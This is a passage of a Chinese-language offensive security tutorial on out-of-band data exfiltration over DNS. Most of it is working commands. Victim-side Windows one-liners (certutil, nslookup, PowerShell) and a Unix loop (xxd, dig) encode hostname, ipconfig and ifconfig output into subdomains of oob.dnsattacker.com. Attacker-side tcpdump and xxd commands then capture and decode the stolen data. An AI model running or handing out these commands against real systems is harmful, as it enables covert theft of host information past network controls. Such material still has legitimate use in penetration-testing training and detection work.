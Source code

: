 ### 2. 利用/渗出

**DNS**

**注：**使用Wireshark/tcpdump观察53端口的响应情况。

```bash
tcpdump -n port 53
```

**Windows**

受害者：

```bash
cmd /v /c "hostname > temp && certutil -encode temp temp2 && findstr /L /V "CERTIFICATE" temp2 > temp3 && set /p MYVAR=<temp3 && set FINAL=!MYVAR!.oob.dnsattacker.com && nslookup !FINAL!"
```

攻击者：

```bash
echo “encoded output” |base64 -d  # decode the output with base64
```

**![7.png](https://image.3001.net/images/20180911/1536629736_5b971be894844.png!small)**

使用多行发送输出

受害者

```bash
cmd /v /c "ipconfig > output && certutil -encodehex -f output output.hex 4 && powershell $text=Get-Content output.hex;$subdomain=$text.replace(' ','');$j=11111;foreach($i in $subdomain){ $final=$j.tostring()+'.'+$i+'.file.oob.dnsattacker.com';$j += 1; nslookup $final }"    # Sending file in HEX
```

攻击者

```bash
sudo tcpdump -n port 53 | tee file.txt
```

提取和构建输出：

```bash
echo "0x$(cat file.txt |tr ' ' '\n' |awk '/file.oob.dnsattacker.com/ {print $1}'|sort -u| cut -d '.' -f 2|tr -d '\n')" | xxd -r -p
```

**![8.png](https://image.3001.net/images/20180911/1536629766_5b971c06c0cb5.png!small)**

限制条件：需要Powershell。

**Unix**

受害者：

```bash
var=11111 && for b in $(ifconfig|xxd -p ); do var=$((var+1)) && dig  $var.$b.file.oob.dnsattacker.com; done   # Sending file in HEX
```
